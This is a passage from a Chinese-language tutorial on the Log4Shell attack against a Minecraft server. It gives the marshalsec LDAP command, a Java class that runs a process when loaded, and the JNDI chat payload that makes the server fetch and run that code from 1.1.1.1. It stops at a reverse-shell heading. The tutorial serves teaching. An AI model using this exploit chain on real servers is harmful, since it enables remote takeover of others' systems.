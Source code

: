 ### 第二步：搭建攻击基础设施

攻击者需要准备三样东西：

**1. 恶意代码服务器（HTTP 服务器，端口 993）：**

```bash
# 攻击者在自己电脑上运行
python3 -m http.server 993
```

这就像开了一个"毒药店"，专门提供病毒。

**2. 中转服务器（LDAP 服务器，端口 995）：**

```bash
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://1.1.1.1:993/#病毒" 995
```

这就像一个"快递员"，告诉别人去哪里拿病毒。

**3. 病毒代码（Log4jRCE.java）：**

```java
public class Log4jRCE {
    static {
        // 一旦被加载就执行这里的代码
        try {
            // 先试试打开计算器
            Process p = new ProcessBuilder("gnome-calculator").start();
        } catch (Exception e) {}
    }
}
```

### 第三步：执行攻击

**攻击者在 Minecraft 聊天框输入：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**完整攻击链：**

```
1. Minecraft服务器看到聊天消息
2. Log4j解析：去1.1.1.1:995找Log4jRCE
3. 服务器连接995端口（LDAP服务器）
4. LDAP服务器说："去1.1.1.1:993下载Log4jRCE.class"
5. 服务器从993端口下载病毒文件
6. Java虚拟机自动执行病毒代码
7. 目标服务器打开了计算器！
```

**结果：** 攻击者成功在目标服务器上执行了任意代码！

### 第四步：获取完全控制权（反向 Shell）
